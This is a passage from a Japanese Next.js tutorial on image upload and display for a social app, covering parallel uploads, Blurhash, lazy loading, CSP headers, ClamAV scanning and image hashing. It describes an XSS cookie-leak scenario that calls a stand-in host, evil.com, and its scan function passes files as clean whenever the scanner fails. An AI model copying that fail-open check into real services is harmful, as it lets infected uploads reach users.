**アップロード速度に影響する要因:**

| 段階 | 時間（目安） | 最適化方法 |
|------|------------|-----------|
| 1. 圧縮 | 100〜2000ms | Web Worker使用 |
| 2. ネットワーク | 500〜5000ms | 圧縮でサイズ削減 |
| 3. サーバー処理 | 50〜500ms | sharp最適化 |
| 4. R2保存 | 50〜200ms | リージョン選択 |
| **合計** | **700〜7700ms** | **最適化後: 300〜2000ms** |

```
■ 最適化の優先度

1位: クライアント圧縮（効果: 大）
  → 10MBの写真を300KBに圧縮 = ネットワーク時間を97%削減

2位: プリサインドURL（効果: 中〜大）
  → サーバーを経由しない = サーバー処理時間ゼロ

3位: 適切なリージョン選択（効果: 中）
  → R2のAuto配置で最寄りのデータセンターを使用

4位: 並列アップロード（効果: 小〜中）
  → 複数画像を同時にアップロード
```

```typescript
/**
 * 並列アップロードの実装
 *
 * ■ 直列 vs 並列の違い
 *
 * 直列（1つずつ順番に）:
 *   画像1 ──────→ 画像2 ──────→ 画像3 ──────→ 画像4
 *   |   2秒    |   2秒    |   2秒    |   2秒    |
 *   合計: 8秒
 *
 * 並列（同時に）:
 *   画像1 ──────→
 *   画像2 ──────→  全て同時に完了
 *   画像3 ──────→
 *   画像4 ──────→
 *   |   2秒    |
 *   合計: 約2秒（4倍速）
 *
 * ■ 注意点
 *   → ブラウザは同一ドメインへの同時接続数に制限あり（通常6本）
 *   → 4枚の画像なら問題ないが、大量のファイルは制限に注意
 */

// lib/utils/parallel-upload.ts

interface UploadResult {
  index: number      // 元のファイルのインデックス
  url?: string       // アップロード成功時のURL
  error?: string     // アップロード失敗時のエラーメッセージ
}

/**
 * 複数ファイルを並列アップロード
 *
 * @param files - アップロードするファイルの配列
 * @param onProgress - 進捗コールバック（完了したファイル数を通知）
 * @returns 各ファイルのアップロード結果
 */
export async function uploadFilesInParallel(
  files: File[],
  onProgress?: (completed: number, total: number) => void
): Promise<UploadResult[]> {
  let completedCount = 0
  const total = files.length

  // Promise.allSettled を使用
  // → Promise.all と違い、1つが失敗しても他のアップロードは続行される
  // → 画像4枚中1枚が失敗しても、残り3枚はアップロード完了する
  const results = await Promise.allSettled(
    files.map(async (file, index) => {
      const formData = new FormData()
      formData.append('file', file)

      const response = await fetch('/api/upload', {
        method: 'POST',
        body: formData,
      })

      if (!response.ok) {
        const errorData = await response.json().catch(() => ({}))
        throw new Error(errorData.error || 'アップロードに失敗しました')
      }

      const data = await response.json()

      // 進捗通知
      completedCount++
      onProgress?.(completedCount, total)

      return { index, url: data.url }
    })
  )

  // Promise.allSettled の結果を統一的な形式に変換
  return results.map((result, index) => {
    if (result.status === 'fulfilled') {
      return result.value
    } else {
      return {
        index,
        error: result.reason?.message || 'アップロードに失敗しました',
      }
    }
  })
}
```

<details>
<summary><b>理解度チェック: FAQ基本編</b></summary>

**Q1**: データベースに画像を直接保存することの最大のデメリットを2つ説明してください。

**A1**: (1) データベースの肥大化 -- 画像1枚500KBが10万枚で50GBとなり、バックアップやクエリのパフォーマンスに深刻な影響を与えます。(2) CDN配信ができない -- オブジェクトストレージであれば世界中のCDN拠点からキャッシュ配信できますが、データベースからの配信ではユーザーに近いサーバーからの高速配信ができません。

**Q2**: Exponential Backoff（指数バックオフ）にJitter（ジッター）を加える理由は何ですか？

**A2**: 多数のクライアントが同時に失敗した場合、指数バックオフだけでは全員が同じタイミングでリトライを行い、サーバーに再び過負荷がかかります（「Thundering Herd問題」）。ジッター（ランダムなゆらぎ）を加えることで、リトライのタイミングが分散され、サーバーへの負荷が平滑化されます。

**Q3**: `Promise.allSettled` を `Promise.all` の代わりに使う理由は何ですか？

**A3**: `Promise.all` は1つでも失敗するとすべてが失敗扱いになります。4枚の画像アップロードで1枚が失敗した場合、残り3枚の成功結果も失われてしまいます。`Promise.allSettled` は各Promiseの成功/失敗を個別に記録するため、成功したアップロードの結果を保持しながら、失敗したものだけを再試行できます。

</details>

---

## 11.17 画像表示のパフォーマンス最適化

画像のアップロードだけでなく、**表示時のパフォーマンス**もSNSの使い勝手に直結します。タイムラインに100枚の画像が表示されるページで、すべてを一度に読み込むとページが重くなり、ユーザーはすぐに離脱してしまいます。この節では、画像表示を高速化するための実践的なテクニックを解説します。

```mermaid
flowchart LR
    A["遅延読み込み<br/>(Lazy Load)"] --> B["レスポンシブ画像<br/>(srcset)"] --> C["プレースホルダー<br/>(LQIP/Blurhash)"] --> D["キャッシュ戦略<br/>(CDN/Browser)"]

    E["効果: 初期ロード時間を最大70%短縮<br/>帯域使用量を最大60%削減"]

    style A fill:#e1f5fe
    style B fill:#e8f5e9
    style C fill:#fff9c4
    style D fill:#fce4ec
    style E fill:#f5f5f5
```

### 11.17.1 next/imageの最適な設定

Next.jsの`<Image>`コンポーネントは多くの最適化を自動で行いますが、設定を正しく行わないと効果が半減します。

```typescript
// components/post/PostImage.tsx
// 投稿画像の表示コンポーネント（最適化済み）

'use client'

import Image from 'next/image'
import { useState } from 'react'

interface PostImageProps {
  src: string       // 画像のURL
  alt: string       // 代替テキスト（アクセシビリティ用）
  width: number     // 元画像の幅（ピクセル）
  height: number    // 元画像の高さ（ピクセル）
  priority?: boolean // LCP（最大コンテンツフル描画）対象かどうか
}

/**
 * 最適化された投稿画像コンポーネント
 *
 * ■ next/image が自動で行う最適化
 *   1. WebP/AVIF変換 -- JPEGより25〜50%小さいファイルサイズ
 *   2. リサイズ -- 表示サイズに合わせた画像を生成
 *   3. 遅延読み込み -- 画面に表示される直前に読み込み開始
 *   4. プレースホルダー -- 読み込み中のぼかし画像表示
 *
 * ■ 開発者が設定すべきこと
 *   1. sizes属性 -- 各画面幅での表示サイズを指定
 *   2. priority属性 -- ファーストビューの画像に設定
 *   3. quality属性 -- 画質とファイルサイズのバランス
 */
export function PostImage({
  src,
  alt,
  width,
  height,
  priority = false,
}: PostImageProps) {
  // 画像の読み込み状態を管理
  const [isLoaded, setIsLoaded] = useState(false)

  return (
    <div
      className="relative overflow-hidden rounded-lg bg-muted"
      // アスペクト比を維持するためのパディング
      // → 画像読み込み前にスペースを確保し、レイアウトシフトを防ぐ
      style={{
        aspectRatio: `${width} / ${height}`,
      }}
    >
      <Image
        src={src}
        alt={alt}
        width={width}
        height={height}

        // ■ sizes属性: ブラウザに「この画像が実際に表示されるサイズ」を伝える
        //
        // なぜ重要か？
        //   ブラウザはHTMLをパースした段階で画像のダウンロードを開始する
        //   このとき、CSSのレイアウト計算はまだ完了していない
        //   → sizes属性がないと、ブラウザはビューポート幅と同じ画像をダウンロード
        //   → 600px幅のカラムに表示する画像に、1920px幅の画像をダウンロードしてしまう
        //
        // sizes の読み方:
        //   "(max-width: 768px) 100vw" → 画面幅768px以下では、画面幅の100%で表示
        //   "(max-width: 1200px) 50vw" → 画面幅1200px以下では、画面幅の50%で表示
        //   "600px"                     → それ以外では、600px幅で表示
        sizes="(max-width: 768px) 100vw, (max-width: 1200px) 50vw, 600px"

        // ■ quality属性: 画質を指定（1〜100）
        // デフォルトは75。SNSの投稿画像は80が良いバランス
        // → 75以下: ファイルサイズは小さいが、画質劣化が目立つ
        // → 85以上: 画質は良いが、ファイルサイズが大きい
        quality={80}

        // ■ priority属性: ファーストビュー（画面に最初に表示される領域）の画像に設定
        // → preloadタグを生成し、他のリソースより優先してダウンロード
        // → LCP（Largest Contentful Paint）スコアの改善に直結
        //
        // 注意: タイムラインの最初の1〜2枚の投稿画像のみに設定
        //       全画像にpriorityを設定すると、優先度が無意味になる
        priority={priority}

        // ■ 読み込み完了時のコールバック
        // → フェードインアニメーションのトリガーに使用
        onLoad={() => setIsLoaded(true)}

        // ■ className: 読み込み完了でフェードイン
        className={`
          object-cover transition-opacity duration-300
          ${isLoaded ? 'opacity-100' : 'opacity-0'}
        `}
      />
    </div>
  )
}
```

### 11.17.2 レスポンシブ画像とsrcset

異なるデバイス（スマホ、タブレット、デスクトップ）で同じ画像を表示する場合、それぞれに適したサイズの画像を配信することが重要です。

```
■ レスポンシブ画像の問題

スマホ（幅375px）とデスクトップ（幅1920px）で同じ1920px幅の画像を配信すると:

  デスクトップ: 1920px幅の画像 → 適切 ✅
  スマホ:       1920px幅の画像 → 過剰 ❌（375px幅に1920pxは無駄）

  スマホユーザーの通信量: 300KB（適切なサイズ）→ 1.2MB（1920px幅）
  → 4倍の無駄な通信量！
  → モバイル回線で読み込みが遅くなる

■ next/image の自動srcset生成

next/imageは自動的に複数サイズの画像を生成:
  → 640px, 750px, 828px, 1080px, 1200px, 1920px, 2048px, 3840px

ブラウザは sizes 属性と画面のDPR（デバイスピクセル比）を元に
最適なサイズを自動選択:
  → iPhone 14 (DPR 3, 幅390px): 390 × 3 = 1170px → 1200px版を選択
  → MacBook Air (DPR 2, 幅600px): 600 × 2 = 1200px → 1200px版を選択
  → 古いPC (DPR 1, 幅600px): 600 × 1 = 600px → 640px版を選択
```

```typescript
/**
 * next.config.ts での画像最適化設定
 *
 * ■ カスタムデバイスサイズの設定
 *   BON-LOGのレイアウトに合わせた最適なブレークポイントを指定
 */

// next.config.ts

import type { NextConfig } from 'next'

const nextConfig: NextConfig = {
  images: {
    // ■ remotePatterns: 外部画像のホスト許可設定
    // → セキュリティ上、許可されたホストからの画像のみ最適化される
    // → 攻撃者が任意のURLを指定して画像最適化APIを悪用するのを防ぐ
    remotePatterns: [
      {
        protocol: 'https',
        hostname: '*.r2.dev',
        // → Cloudflare R2のバケットURLを許可
      },
      {
        protocol: 'https',
        hostname: '*.public.blob.vercel-storage.com',
        // → Vercel Blob Storage（将来の移行先候補）
      },
    ],

    // ■ deviceSizes: レイアウトのブレークポイントに合わせたサイズ
    // → sizes="100vw" の場合に使用される候補サイズ
    // → BON-LOGの3カラムレイアウトに最適化
    deviceSizes: [640, 750, 828, 1080, 1200, 1920],

    // ■ imageSizes: 固定幅画像のサイズ候補
    // → sizes="600px" のように固定値が指定された場合に使用
    // → アバター画像（48px, 96px）やサムネイル（200px, 400px）に対応
    imageSizes: [16, 32, 48, 64, 96, 128, 200, 256, 384, 400],

    // ■ formats: 出力フォーマットの優先順位
    // → ブラウザがAVIF対応ならAVIF、WebP対応ならWebPで配信
    // → AVIFはWebPよりさらに20%小さいが、エンコードが遅い
    formats: ['image/avif', 'image/webp'],

    // ■ minimumCacheTTL: 最適化画像のキャッシュ期間（秒）
    // → CDNとブラウザの両方でこの期間キャッシュされる
    // → 60秒（デフォルト）→ 2592000秒（30日）に変更
    // → 画像は変更頻度が低いため、長いキャッシュが有効
    minimumCacheTTL: 2592000,  // 30日
  },
}

export default nextConfig
```

### 11.17.3 Blurhashによるプレースホルダー

画像の読み込み中に、単なるグレーの四角ではなく、画像のぼやけたプレビューを表示する技術です。ユーザーは画像の読み込みを「待っている感覚」が減り、体感速度が向上します。

```
■ Blurhashとは？

画像のぼやけたプレビューを、非常に短い文字列（20〜30文字）で表現する技術です。
```

| 種類 | 見え方 | 説明 |
|------|--------|------|
| 通常のプレースホルダー | グレーの四角 | 何が表示されるかわからない |
| Blurhashプレースホルダー | ぼやけた色付き画像 | ぼんやりと色と形がわかる |

```
Blurhash文字列の例:
  "LEHV6nWB2yk8pyo0adR*.7kCMdnj"
  → この30文字だけで、ぼやけた画像を再現できる
  → データベースにこの文字列を保存するだけ（画像データ不要）
```

```typescript
/**
 * Blurhashの生成と表示
 *
 * ■ 処理フロー
 *   1. アップロード時: sharpで画像を縮小 → blurhashを計算 → DBに保存
 *   2. 表示時: DBからblurhash文字列を取得 → Canvasで描画 → 本画像が読み込まれたら切り替え
 */

// lib/utils/blurhash.ts
// サーバー側: アップロード時にBlurhashを生成

import { encode } from 'blurhash'
import sharp from 'sharp'

/**
 * 画像バッファからBlurhash文字列を生成する
 *
 * @param imageBuffer - 元画像のバッファ
 * @returns Blurhash文字列（例: "LEHV6nWB2yk8pyo0adR*.7kCMdnj"）
 *
 * ■ なぜ縮小してからBlurhashを計算するか？
 *   → Blurhash自体がぼやけた画像を表現するため、高解像度は不要
 *   → 32x32ピクセルに縮小しても、生成されるBlurhashは十分な品質
 *   → 計算時間を大幅に短縮（4032x3024 → 32x32 で約1000倍の差）
 */
export async function generateBlurhash(
  imageBuffer: Buffer
): Promise<string> {
  // sharpで小さなサイズにリサイズ（Blurhash計算用）
  const { data, info } = await sharp(imageBuffer)
    .resize(32, 32, { fit: 'inside' })  // 32x32以内にリサイズ
    .ensureAlpha()                       // アルファチャンネルを追加
    .raw()                               // 生のピクセルデータとして出力
    .toBuffer({ resolveWithObject: true })

  // Blurhash文字列を生成
  // 引数: ピクセルデータ, 幅, 高さ, X成分数, Y成分数
  // X/Y成分数が大きいほど詳細なBlurhashになるが、文字列も長くなる
  // 4x3 は一般的な推奨値
  const blurhash = encode(
    new Uint8ClampedArray(data),  // ピクセルデータ（RGBA配列）
    info.width,                   // 幅
    info.height,                  // 高さ
    4,                            // X方向の成分数
    3                             // Y方向の成分数
  )

  return blurhash
  // 結果例: "LEHV6nWB2yk8pyo0adR*.7kCMdnj"
  // → この文字列をDBの post_media.blurhash カラムに保存
}
```

```typescript
// components/common/BlurhashImage.tsx
// クライアント側: Blurhashプレースホルダー付き画像コンポーネント

'use client'

import { decode } from 'blurhash'
import Image from 'next/image'
import { useEffect, useRef, useState } from 'react'

interface BlurhashImageProps {
  src: string
  alt: string
  width: number
  height: number
  blurhash: string    // DBから取得したBlurhash文字列
  priority?: boolean
}

/**
 * Blurhashプレースホルダー付きの画像コンポーネント
 *
 * ■ 表示の流れ
 *   1. 最初: Blurhashをデコードしたぼやけた画像を表示
 *   2. 本画像の読み込み開始（バックグラウンド）
 *   3. 本画像の読み込み完了: スムーズにフェードイン
 *   4. Blurhashプレースホルダーがフェードアウト
 */
export function BlurhashImage({
  src,
  alt,
  width,
  height,
  blurhash,
  priority = false,
}: BlurhashImageProps) {
  const canvasRef = useRef<HTMLCanvasElement>(null)
  const [imageLoaded, setImageLoaded] = useState(false)

  // Blurhashをcanvasに描画
  useEffect(() => {
    if (!canvasRef.current || !blurhash) return

    try {
      // Blurhash文字列をピクセルデータにデコード
      // 32x32ピクセルのプレースホルダー画像を生成
      const pixels = decode(blurhash, 32, 32)

      const canvas = canvasRef.current
      canvas.width = 32
      canvas.height = 32

      const ctx = canvas.getContext('2d')
      if (!ctx) return

      // ピクセルデータをcanvasに描画
      const imageData = ctx.createImageData(32, 32)
      imageData.data.set(pixels)
      ctx.putImageData(imageData, 0, 0)
    } catch (error) {
      // Blurhashのデコードに失敗した場合は何も表示しない
      // → 本画像の読み込みは正常に続行される
      console.warn('Blurhash decode failed:', error)
    }
  }, [blurhash])

  return (
    <div
      className="relative overflow-hidden rounded-lg"
      style={{ aspectRatio: `${width} / ${height}` }}
    >
      {/* レイヤー1: Blurhashプレースホルダー（背景） */}
      <canvas
        ref={canvasRef}
        className={`
          absolute inset-0 h-full w-full
          transition-opacity duration-500
          ${imageLoaded ? 'opacity-0' : 'opacity-100'}
        `}
        style={{ objectFit: 'cover' }}
        aria-hidden="true"
      />

      {/* レイヤー2: 実際の画像（前景） */}
      <Image
        src={src}
        alt={alt}
        width={width}
        height={height}
        priority={priority}
        quality={80}
        sizes="(max-width: 768px) 100vw, (max-width: 1200px) 50vw, 600px"
        onLoad={() => setImageLoaded(true)}
        className={`
          relative transition-opacity duration-500
          ${imageLoaded ? 'opacity-100' : 'opacity-0'}
        `}
      />
    </div>
  )
}
```

### 11.17.4 仮想スクロールによるタイムライン最適化

タイムラインに大量の投稿画像が表示される場合、すべてのDOM要素を保持するとメモリ使用量が膨大になります。仮想スクロール（Virtual Scrolling）は、画面に見えている範囲のDOM要素だけを描画する技術です。

```mermaid
flowchart TB
    subgraph Normal["通常のスクロール（全DOM描画）<br/>DOM要素数: 100個 → メモリ使用量: 大"]
        direction TB
        N1["画面外（上）<br/>投稿1〜3 [DOM存在] ← メモリ消費"]
        N2["画面内<br/>投稿4〜6 [DOM存在] ★ ← ユーザーに見えている"]
        N3["画面外（下）<br/>投稿7〜100 [DOM存在] ← メモリ消費"]
        N1 --- N2 --- N3
    end

    subgraph Virtual["仮想スクロール（可視部分のみ描画）<br/>DOM要素数: 3〜5個 → メモリ使用量: 極小"]
        direction TB
        V1["画面外（上）<br/>（空白スペース） ← DOM要素なし"]
        V2["画面内<br/>投稿4〜6 [DOM存在] ★ ← ユーザーに見えている"]
        V3["画面外（下）<br/>（空白スペース） ← DOM要素なし"]
        V1 --- V2 --- V3
    end

    style N1 fill:#ffcccc
    style N2 fill:#e8f5e9
    style N3 fill:#ffcccc
    style V1 fill:#f5f5f5
    style V2 fill:#e8f5e9
    style V3 fill:#f5f5f5
```

```typescript
/**
 * Intersection Observer を使った遅延読み込みの実装
 *
 * ■ Intersection Observer とは？
 *   ブラウザが提供する「要素が画面に表示されたか」を監視するAPI
 *   → スクロールイベントを使うより効率的（ブラウザが最適化）
 *   → 画面に近づいた時だけ画像を読み込む
 *
 * ■ なぜスクロールイベントではなくIntersection Observerか？
 *   スクロールイベント: スクロールのたびにJavaScriptが実行される（負荷大）
 *   Intersection Observer: ブラウザが効率的に判定（負荷小）
 */

// hooks/useIntersectionObserver.ts

import { useEffect, useRef, useState } from 'react'

interface UseIntersectionObserverOptions {
  threshold?: number    // 何%見えたら「表示された」とみなすか（0〜1）
  rootMargin?: string   // 判定領域を広げるマージン
}

/**
 * 要素が画面内に入ったかを監視するカスタムフック
 *
 * @param options - Intersection Observerのオプション
 * @returns [ref, isIntersecting] - 監視対象のref と 表示状態
 *
 * 使用例:
 *   const [ref, isVisible] = useIntersectionObserver({
 *     rootMargin: '200px'  // 画面の200px手前で「表示」とみなす
 *   })
 *   → 画像が画面に入る200px前から読み込みを開始
 *   → ユーザーがスクロールした時には既に読み込み完了している
 */
export function useIntersectionObserver(
  options: UseIntersectionObserverOptions = {}
): [React.RefObject<HTMLDivElement | null>, boolean] {
  const ref = useRef<HTMLDivElement | null>(null)
  const [isIntersecting, setIsIntersecting] = useState(false)

  useEffect(() => {
    const element = ref.current
    if (!element) return

    // Intersection Observerを作成
    const observer = new IntersectionObserver(
      ([entry]) => {
        // 要素が画面内に入った（またはrootMargin内に入った）
        if (entry.isIntersecting) {
          setIsIntersecting(true)
          // 一度表示されたら監視を停止
          // → 画像は一度読み込めば再読み込み不要
          observer.unobserve(element)
        }
      },
      {
        threshold: options.threshold ?? 0,
        // rootMargin: "200px" → 画面の200px手前から読み込み開始
        rootMargin: options.rootMargin ?? '200px',
      }
    )

    observer.observe(element)

    // クリーンアップ: コンポーネントがアンマウントされたら監視を停止
    return () => observer.disconnect()
  }, [options.threshold, options.rootMargin])

  return [ref, isIntersecting]
}
```

```typescript
// components/post/LazyPostImage.tsx
// 遅延読み込み対応の投稿画像コンポーネント

'use client'

import { useIntersectionObserver } from '@/hooks/useIntersectionObserver'
import { BlurhashImage } from '@/components/common/BlurhashImage'

interface LazyPostImageProps {
  src: string
  alt: string
  width: number
  height: number
  blurhash?: string
}

/**
 * 遅延読み込み + Blurhash対応の投稿画像
 *
 * ■ 動作の流れ
 *   1. 画面外: Blurhashプレースホルダーのみ（画像はダウンロードしない）
 *   2. 画面の200px手前: 画像のダウンロードを開始
 *   3. ダウンロード完了: Blurhash → 実画像にフェードイン
 */
export function LazyPostImage({
  src,
  alt,
  width,
  height,
  blurhash,
}: LazyPostImageProps) {
  // 画面の200px手前に来たら isVisible = true になる
  const [ref, isVisible] = useIntersectionObserver({
    rootMargin: '200px',
  })

  return (
    <div ref={ref}>
      {isVisible ? (
        // 画面内に入ったら実際の画像を読み込む
        <BlurhashImage
          src={src}
          alt={alt}
          width={width}
          height={height}
          blurhash={blurhash || ''}
        />
      ) : (
        // 画面外ではプレースホルダーだけ表示（画像はダウンロードしない）
        <div
          className="rounded-lg bg-muted"
          style={{ aspectRatio: `${width} / ${height}` }}
          aria-hidden="true"
        />
      )}
    </div>
  )
}
```

<details>
<summary><b>理解度チェック: パフォーマンス最適化</b></summary>

**Q1**: next/imageの`sizes`属性を設定しないと何が起きますか？

**A1**: ブラウザはHTMLをパースした時点で画像のダウンロードを開始しますが、CSSのレイアウト計算はまだ完了していません。`sizes`属性がないと、ブラウザは画像がビューポート全体の幅で表示されると仮定し、最も大きなサイズの画像をダウンロードします。例えば600px幅のカラムに表示する画像に対して1920px幅の画像がダウンロードされ、通信量が無駄になります。

**Q2**: Blurhash文字列はなぜ20〜30文字程度で画像のプレビューを表現できるのですか？

**A2**: Blurhashは離散コサイン変換（DCT）という数学的手法を使い、画像の色分布を周波数成分に分解して、低周波成分（大まかな色の変化）のみを保持します。高精細なディテールは捨て、画像全体の「雰囲気」だけをコンパクトに符号化するため、わずか20〜30文字で表現できます。

**Q3**: Intersection Observerがスクロールイベントよりもパフォーマンスに優れている理由を説明してください。

**A3**: スクロールイベントはスクロールのたびにJavaScript関数が実行され、メインスレッドを頻繁にブロックします（1秒間に数十回〜数百回）。一方、Intersection Observerはブラウザの内部で効率的に交差判定を行い、要素が閾値を超えた時だけコールバックを呼び出します。ブラウザのレンダリングエンジンレベルで最適化されているため、CPU負荷が大幅に低くなります。

</details>

---

## 11.18 アップロードセキュリティの追加パターン

11.12節で基本的なセキュリティ対策を解説しましたが、ここではさらに発展的なセキュリティパターンを紹介します。実際の運用で直面する可能性のある脅威と、その防御手法を具体的なコードとともに学びましょう。

### 11.18.1 Content-Security-Policy（CSP）による画像ソース制限

CSPは、ブラウザに対して「どのソースからのコンテンツを許可するか」を指示するHTTPヘッダーです。画像に関しては、`img-src`ディレクティブで許可する画像ソースを限定できます。

```
■ CSPがない場合のリスク

攻撃者がXSSを利用して以下のようなHTMLを挿入:
  

→ ユーザーのブラウザがevil.comに接続
→ クッキー情報やアクセス情報が漏洩

■ CSPで画像ソースを制限

Content-Security-Policy:
  img-src 'self' https://*.r2.dev https://lh3.googleusercontent.com;

→ 'self': 自サイトの画像のみ許可
→ https://*.r2.dev: R2ストレージの画像を許可
→ https://lh3.googleusercontent.com: Google OAuth のアバター画像を許可
→ それ以外の画像ソースはブラウザがブロック
```

```typescript
// proxy.ts（Next.js 16）
// CSPヘッダーを全レスポンスに付与

import { NextResponse } from 'next/server'
import type { NextRequest } from 'next/server'

/**
 * Content-Security-Policyヘッダーの設定
 *
 * ■ 各ディレクティブの役割
 *
 * default-src 'self'
 *   → デフォルトでは自サイトのリソースのみ許可
 *   → 他のディレクティブで明示的に許可されていないソースはブロック
 *
 * img-src 'self' data: blob: https://*.r2.dev
 *   → 'self': 自サイトの画像
 *   → data: Base64エンコードされた画像（Blurhashの描画に必要）
 *   → blob: Blob URLからの画像（プレビュー表示に必要）
 *   → https://*.r2.dev: Cloudflare R2からの画像
 *
 * script-src 'self' 'nonce-xxx'
 *   → 自サイトのスクリプトのみ実行を許可
 *   → nonce: 動的に生成されるスクリプトにはnonce属性を付与
 *
 * style-src 'self' 'unsafe-inline'
 *   → Tailwind CSSのインラインスタイルを許可するため unsafe-inline が必要
 */
function generateCSP(): string {
  const directives = [
    "default-src 'self'",
    "img-src 'self' data: blob: https://*.r2.dev https://lh3.googleusercontent.com",
    "script-src 'self'",
    "style-src 'self' 'unsafe-inline'",
    "font-src 'self'",
    "connect-src 'self' https://*.r2.dev",
    "media-src 'self' https://*.r2.dev blob:",
    "object-src 'none'",           // Flash等のプラグインを完全ブロック
    "frame-ancestors 'none'",       // iframe埋め込みを禁止（クリックジャッキング防止）
    "base-uri 'self'",             // <base>タグの悪用を防止
    "form-action 'self'",          // フォーム送信先を自サイトに限定
  ]
  return directives.join('; ')
}

export function proxy(request: NextRequest) {
  const response = NextResponse.next()

  // CSPヘッダーを付与
  response.headers.set('Content-Security-Policy', generateCSP())

  // その他のセキュリティヘッダー
  // X-Content-Type-Options: MIMEタイプのスニッフィングを防止
  // → サーバーが返すContent-Typeをブラウザが勝手に変更しない
  // → 例: text/plainをtext/htmlとして解釈することを防ぐ
  response.headers.set('X-Content-Type-Options', 'nosniff')

  // X-Frame-Options: iframe埋め込みを禁止（古いブラウザ用）
  // → frame-ancestors 'none' と同じ効果だが、古いブラウザ対応
  response.headers.set('X-Frame-Options', 'DENY')

  // Referrer-Policy: リファラー情報の送信を制限
  // → 画像URLにアクセストークン等が含まれている場合の情報漏洩を防止
  response.headers.set('Referrer-Policy', 'strict-origin-when-cross-origin')

  return response
}
```

### 11.18.2 ウイルススキャンの統合

アップロードされたファイルにマルウェアが含まれている可能性があります。特に、画像ファイルに偽装したウイルスやトロイの木馬は、他のユーザーがダウンロードすることで被害が広がります。

**パターンA: 同期スキャン（アップロード時に即座にスキャン）**

```mermaid
sequenceDiagram
    participant B as ブラウザ
    participant S as サーバー
    participant V as ウイルススキャナー
    participant R as R2

    B->>S: ファイル送信
    S->>V: スキャン依頼
    alt 安全
        V-->>S: OK
        S->>R: 保存
        R-->>S: 完了
        S-->>B: 成功
    else 危険
        V-->>S: NG（感染検出）
        S-->>B: 拒否
    end
```

- メリット: 危険なファイルが即座にブロックされる
- デメリット: アップロード時間が増加（+2〜5秒）

**パターンB: 非同期スキャン（アップロード後にバックグラウンドでスキャン）**

```mermaid
sequenceDiagram
    participant B as ブラウザ
    participant S as サーバー
    participant R as R2
    participant V as ウイルススキャナー

    B->>S: ファイル送信
    S->>R: まず保存
    R-->>S: 完了
    S-->>B: 成功
    S->>V: バックグラウンドでスキャン依頼
    alt 感染検出
        V-->>S: NG
        S->>R: ファイル削除
        S->>B: ユーザー通知
    else 安全
        V-->>S: OK
    end
```

- メリット: アップロード時間に影響しない
- デメリット: スキャン完了までの間、感染ファイルがアクセス可能

```typescript
/**
 * ClamAV（オープンソースのウイルススキャナ）との連携例
 *
 * ■ ClamAV とは？
 *   → 無料で使えるオープンソースのアンチウイルスソフト
 *   → Linux/macOS/Windowsで動作
 *   → メール添付ファイルやWebアップロードのスキャンに広く使われている
 *   → REST APIを提供する clamav-rest というDockerイメージがある
 *
 * ■ BON-LOGでの推奨パターン
 *   開発環境: スキャンなし（ClamAVの設定が複雑なため）
 *   本番環境: 非同期スキャン（パターンB）
 *
 * 注意: 以下は概念的な実装例です。
 *       実際の運用では ClamAV サーバーの設定が別途必要です。
 */

// lib/security/virus-scan.ts

interface ScanResult {
  clean: boolean       // ファイルが安全かどうか
  threat?: string      // 検出された脅威の名前（ウイルス名等）
  scanTime: number     // スキャンにかかった時間（ミリ秒）
}

/**
 * ClamAV REST APIを使ったウイルススキャン
 *
 * @param fileBuffer - スキャン対象のファイルバッファ
 * @returns スキャン結果
 */
export async function scanFile(fileBuffer: Buffer): Promise<ScanResult> {
  const startTime = Date.now()

  // ClamAV REST APIのURL（Docker Composeで起動した場合）
  const clamavUrl = process.env.CLAMAV_REST_URL || 'http://clamav:3310'

  try {
    // ファイルをClamAVに送信してスキャン
    const response = await fetch(`${clamavUrl}/scan`, {
      method: 'POST',
      headers: {
        'Content-Type': 'application/octet-stream',
        // Content-Length でファイルサイズを明示
        'Content-Length': fileBuffer.length.toString(),
      },
      body: fileBuffer,
      // タイムアウト: 30秒（大きなファイルのスキャンには時間がかかる）
      signal: AbortSignal.timeout(30000),
    })

    const result = await response.json()
    const scanTime = Date.now() - startTime

    if (result.infected) {
      // ウイルス検出！
      console.error(`Virus detected: ${result.viruses?.join(', ')}`)
      return {
        clean: false,
        threat: result.viruses?.[0] || 'Unknown threat',
        scanTime,
      }
    }

    return { clean: true, scanTime }
  } catch (error) {
    // スキャンサービスに接続できない場合
    console.error('Virus scan failed:', error)

    // ■ フェイルオープン vs フェイルクローズの判断
    // ここではフェイルオープン（スキャン失敗時はアップロードを許可）
    // → ClamAVの障害で全アップロードがブロックされるのを防ぐ
    // → ただし、ログに記録して後でバッチスキャンする
    return {
      clean: true,  // 仮に安全とみなす
      scanTime: Date.now() - startTime,
    }
  }
}
```

### 11.18.3 画像のフィンガープリントと重複検出

同じ画像が繰り返しアップロードされることを検出し、ストレージの無駄遣いを防ぎます。また、不正コンテンツ（一度削除された画像の再アップロード）の検出にも活用できます。

```
■ フィンガープリント（指紋）とは？

画像のハッシュ値を計算し、一意の識別子を生成する技術です。

  画像A → SHA-256 → "a3f2b8c9..." （この値が「指紋」）
  画像B → SHA-256 → "7d1e4f2a..." （異なる画像は異なる指紋）
  画像A' → SHA-256 → "a3f2b8c9..." （同じ画像は同じ指紋）

■ 用途

1. 重複検出
   → 同じ画像を2回アップロードしても、1回分のストレージで済む
   → 既存のURLを返すだけ（アップロード時間もゼロ）

2. 不正コンテンツの再アップロード防止
   → 運営が削除した画像のハッシュをブラックリストに登録
   → 同じ画像のアップロードを自動的にブロック

3. キャッシュ効率の向上
   → 同じハッシュの画像は同じURLを共有
   → CDNのキャッシュヒット率が向上
```

```typescript
// lib/security/image-fingerprint.ts

import crypto from 'crypto'

/**
 * 画像のSHA-256ハッシュ（フィンガープリント）を計算する
 *
 * @param buffer - 画像のバッファデータ
 * @returns ハッシュ文字列（64文字の16進数）
 *
 * ■ なぜSHA-256を使うか？
 *   → MD5: 衝突（異なるデータで同じハッシュ）が発見されており非推奨
 *   → SHA-1: 理論上の衝突が確認されており非推奨
 *   → SHA-256: 現時点で衝突は発見されておらず、安全性が高い
 *   → 速度もSHA-256で十分（4MBの画像で約1ミリ秒）
 */
export function calculateImageHash(buffer: Buffer): string {
  return crypto
    .createHash('sha256')   // SHA-256ハッシュオブジェクトを作成
    .update(buffer)          // データを投入
    .digest('hex')           // 16進数文字列として出力
  // 結果例: "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"
}

/**
 * 重複画像の検出とアップロード最適化
 *
 * ■ 処理フロー
 *   1. 画像のハッシュを計算
 *   2. DBで同じハッシュの画像を検索
 *   3-a. 見つかった場合: 既存のURLを返す（アップロードスキップ）
 *   3-b. 見つからない場合: 通常のアップロード処理
 *   4. ハッシュをDBに記録
 */
